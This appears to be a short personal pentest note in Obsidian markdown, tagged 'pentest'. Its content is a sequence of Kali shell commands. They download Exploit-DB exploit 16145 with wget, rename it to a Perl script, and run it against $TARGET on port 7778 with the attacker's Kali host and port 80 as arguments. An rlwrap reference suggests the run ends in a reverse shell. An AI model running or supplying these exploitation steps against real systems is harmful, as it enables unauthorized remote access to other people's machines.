 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - klai
wget https://www.exploit-db.com/exploits/16145
```

```bash - kali
mv 16145 16145.pl
```

![[rlwrap]]

```bash - kali
perl 16145.pl $TARGET 7778 $KALI 80
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

